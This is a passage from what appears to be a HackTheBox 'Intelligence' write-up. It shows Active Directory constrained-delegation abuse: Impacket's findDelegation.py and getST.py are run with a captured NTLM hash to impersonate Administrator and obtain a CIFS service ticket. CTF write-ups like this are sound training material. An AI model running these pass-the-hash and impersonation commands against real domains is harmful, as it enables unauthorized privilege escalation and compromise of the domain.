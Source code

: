 ![alt text](../assets/images/intelligence13.png)

we can delegate DC directly tho.

```bash
findDelegation.py  intelligence.htb/svc_int$ -hashes :9db7142ffb1a5550533f64941ac4a37b 
```

![alt text](../assets/images/intelligence14.png)

So we have to use `WWW/dc.intelligence.htb`  and lets do this shit

```bash
faketime "$(ntpdate -q intelligence.htb | cut -d ' ' -f 1,2)" getST.py -spn 'WWW/dc.intelligence.htb' -impersonate 'Administrator' -altservice 'cifs' -hashes :9db7142ffb1a5550533f64941ac4a37b 'intelligence.htb/svc_int'
```

![alt text](../assets/images/intelligence15.png)
